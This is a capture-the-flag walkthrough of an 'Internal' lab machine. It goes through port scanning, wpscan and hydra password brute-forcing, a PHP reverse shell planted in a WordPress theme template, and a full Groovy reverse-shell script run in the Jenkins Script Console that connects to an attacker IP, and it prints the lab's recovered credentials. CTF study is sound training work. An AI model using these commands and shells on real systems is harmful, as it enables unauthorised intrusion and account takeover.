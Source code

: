 # Internal

### **Tasks**:

1. **Pre-engagement Briefing**:
   1. Get basic understanding that it's fully black box pentesting and you need to prove access by getting user.txt and root.txt.
2. **Deploy and Engage the Client Environment**:
   1. Doing nmap scan with `nmap -sC -sV -T5 ip` reveals port 22,80 open. Port 80 has Apache/2.4.29 running behind it.
   2. Use gobuster to find directories accessible to us : `gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.8.96/" --threads=100` - /blog, /phpmyadmin seems interesting, /blog seems to be wordpress site.
   3. By seeing [post](http://internal.thm/blog/index.php/2020/08/03/hello-world/) here, we can confirm there is a user called admin.
   4. Let's now use wpscan to bruteforce admin credentials with `wpscan --url http://internal.thm/blog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 100` - \[admin:my2boys], Now login as wordpress administrator with these credentials.
   5. Twenty Seventeen is the active theme, Go to theme editor , In 404.php template replace  with Pentest-Money Reverse shell after changing required IP and PORT configurations. Also start netcat listener in another terminal using `nc -nlvp 1234` and open [404 page](http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php) to get shell . \[Location of theme can also obtained from wpscan output]
   6. Run `python -c 'import pty; pty.spawn("/bin/bash")'` to get interactive shell.
   7. We find that there's a user called aubreanna by navigating to home and doing `ls`, but we can't access that due to restrictions.
   8. `find / -type f -name "*.txt" | less` - we find there's a interesting file /opt/wp-save.txt, `cat /opt/wp-save.txt` -  we find aubreanna credentials \[aubreanna:bubb13guM!@#123], Login as aubreanna using `su aubreanna` and the password as bubb13guM!@#123.
   9. `cat /home/aubreanna/user.txt` and submit user flag. Also notice there's a jenkins.txt . `cat /home/aubreanna/jenkins.txt` reveals internal jenkins service running at 172.17.0.2:8080.
   10. Let's ssh exposing port 8080 locally to us to access jenkins `ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm` .
   11. Open http://127.0.0.1:8080 in browser, it seems to be a jenkins login page, Let's use hydra to bruteforce password keeping default user as admin after intercepting request through burp - `hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' - hydra -l admin -P /usr/share/wordlists/rockyou.txt //127.0.0.1 -s 8080 http-post-form 'j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'` - \[admin:spongebob]
   12. Start netcat listener using `nc -nlvp 1337`
   13. Once logged in to jenkins instance using above credentials,  Go to manage jenkins> Script Console and enter below exploit , start netcat listener using nc -nlvp 1337 and run the script in jenkins to get reverse shell.



       ```
       String host="attacker_ip";
       int port=1337;
       String cmd="bash";
       Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
       ```


   14. `ls -la` reveals .dockerfile which suggests we are in a docker container
   15. Using `find / -name *.txt | more` - we find there is file /opt/note.txt, `cat /opt/note.txt` reveals root credentials for parent os running this container. \[root:tr0ub13guM!@#123]
   16. Login using ssh : `ssh root@internal.thm` and tr0ub13guM!@#123 as password.
   17. `cat /root/root.txt` and submit flag.

